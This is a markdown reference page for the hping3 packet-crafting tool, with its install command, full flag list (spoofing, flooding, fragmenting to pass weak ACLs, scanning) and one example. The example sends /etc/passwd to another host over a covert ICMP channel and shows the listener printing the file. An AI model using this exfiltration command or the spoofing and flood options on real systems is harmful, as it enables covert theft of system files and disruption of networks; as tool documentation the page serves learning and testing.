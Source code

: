 ```yaml
---
title : "Hping3"
# pre : ' '
description : "Send (almost) arbitrary TCP/IP packets to network hosts."
date : 2021-05-12T09:32:22+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Hping3

Send (almost) arbitrary TCP/IP packets to network hosts.

hping is a command-line oriented TCP/IP packet assembler/analyzer. The interface is inspired to the ping(8) unix command, but hping isn't only able to send ICMP echo requests. It supports TCP, UDP, ICMP and RAW-IP protocols, has a traceroute mode, the ability to send files between a covered channel, and many other features.

## Installation

```plain
sudo apt install hping3
```

## Usage

```plain
hping3 host [options]
```

## Flags

```plain
  -h  --help      show this help
  -v  --version   show version
  -c  --count     packet count
  -i  --interval  wait (uX for X microseconds, for example -i u1000)
      --fast      alias for -i u10000 (10 packets for second)
      --faster    alias for -i u1000 (100 packets for second)
      --flood     sent packets as fast as possible. Don't show replies.
  -n  --numeric   numeric output
  -q  --quiet     quiet
  -I  --interface interface name (otherwise default routing interface)
  -V  --verbose   verbose mode
  -D  --debug     debugging info
  -z  --bind      bind ctrl+z to ttl           (default to dst port)
  -Z  --unbind    unbind ctrl+z
      --beep      beep for every matching packet received
Mode
  default mode     TCP
  -0  --rawip      RAW IP mode
  -1  --icmp       ICMP mode
  -2  --udp        UDP mode
  -8  --scan       SCAN mode.
                   Example: hping --scan 1-30,70-90 -S www.target.host
  -9  --listen     listen mode
IP
  -a  --spoof      spoof source address
  --rand-dest      random destionation address mode. see the man.
  --rand-source    random source address mode. see the man.
  -t  --ttl        ttl (default 64)
  -N  --id         id (default random)
  -W  --winid      use win* id byte ordering
  -r  --rel        relativize id field          (to estimate host traffic)
  -f  --frag       split packets in more frag.  (may pass weak acl)
  -x  --morefrag   set more fragments flag
  -y  --dontfrag   set don't fragment flag
  -g  --fragoff    set the fragment offset
  -m  --mtu        set virtual mtu, implies --frag if packet size > mtu
  -o  --tos        type of service (default 0x00), try --tos help
  -G  --rroute     includes RECORD_ROUTE option and display the route buffer
  --lsrr           loose source routing and record route
  --ssrr           strict source routing and record route
  -H  --ipproto    set the IP protocol field, only in RAW IP mode
ICMP
  -C  --icmptype   icmp type (default echo request)
  -K  --icmpcode   icmp code (default 0)
      --force-icmp send all icmp types (default send only supported types)
      --icmp-gw    set gateway address for ICMP redirect (default 0.0.0.0)
      --icmp-ts    Alias for --icmp --icmptype 13 (ICMP timestamp)
      --icmp-addr  Alias for --icmp --icmptype 17 (ICMP address subnet mask)
      --icmp-help  display help for others icmp options
UDP/TCP
  -s  --baseport   base source port             (default random)
  -p  --destport   [+][+]<port> destination port(default 0) ctrl+z inc/dec
  -k  --keep       keep still source port
  -w  --win        winsize (default 64)
  -O  --tcpoff     set fake tcp data offset     (instead of tcphdrlen / 4)
  -Q  --seqnum     shows only tcp sequence number
  -b  --badcksum   (try to) send packets with a bad IP checksum
                   many systems will fix the IP checksum sending the packet
                   so you'll get bad UDP/TCP checksum instead.
  -M  --setseq     set TCP sequence number
  -L  --setack     set TCP ack
  -F  --fin        set FIN flag
  -S  --syn        set SYN flag
  -R  --rst        set RST flag
  -P  --push       set PUSH flag
  -A  --ack        set ACK flag
  -U  --urg        set URG flag
  -X  --xmas       set X unused flag (0x40)
  -Y  --ymas       set Y unused flag (0x80)
  --tcpexitcode    use last tcp->th_flags as exit code
  --tcp-mss        enable the TCP MSS option with the given value
  --tcp-timestamp  enable the TCP timestamp option to guess the HZ/uptime
Common
  -d  --data       data size                    (default is 0)
  -E  --file       data from file
  -e  --sign       add 'signature'
  -j  --dump       dump packets in hex
  -J  --print      dump printable characters
  -B  --safe       enable 'safe' protocol
  -u  --end        tell you when --file reached EOF and prevent rewind
  -T  --traceroute traceroute mode              (implies --bind and --ttl 1)
  --tr-stop        Exit when receive the first not ICMP in traceroute mode
  --tr-keep-ttl    Keep the source TTL fixed, useful to monitor just one hop
  --tr-no-rtt      Don't calculate/show RTT information in traceroute mode
ARS packet description (new, unstable)
  --apd-send       Send the packet described with APD (see docs/APD.txt)
```

## Examples

#### Send file via ICMP (ping)

```sudo hping3 -I [INTERFACE] [TARGET-IP] --[PROTOCOL] -d 100 --sign [SECRET] --file [FILE]```

```plain
$ sudo hping3 -I eth0 10.10.20.106 --icmp -d 100 --sign secret --file /etc/passwd
HPING 10.10.20.106 (lo 10.10.20.106): icmp mode set, 28 headers + 100 data bytes
[main] memlockall(): Success
Warning: can't disable memory paging!
```

Listen on target machine.

```plain
$ sudo hping3 -I wlp4s0 --listen secret --icmp
hping3 listen mode
[main] memlockall(): Success
Warning: can't disable memory paging!
20:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:119:126::20:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:119:126::/var/lib/saned:/usr/sbin/nologin
dnsmasq:x:120:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologi/var/lib/saned:/usr/sbin/nologin
dnsmasq:x:120:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
tcpdump:x:121:128::/nonexistent:/usr/sbin/nologin
uuidd:x:122:129::/run/uuidd:/usr/sbin/nolon
tcpdump:x:121:128::/nonexistent:/usr/sbin/nologin
uuidd:x:122:129::/run/uuidd:/usr/sbin/nologin
---  hping statistic ---
0 packets transmitted, 0 packets received, 0% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
```

## URL List

* [Tools.kali.org - hping3](https://tools.kali.org/information-gathering/hping3)
* [Linux.die.net - hping3](https://linux.die.net/man/8/hping3)
* [iphelix.medium.com - Hping tips and tricks](https://iphelix.medium.com/hping-tips-and-tricks-85698751179f)
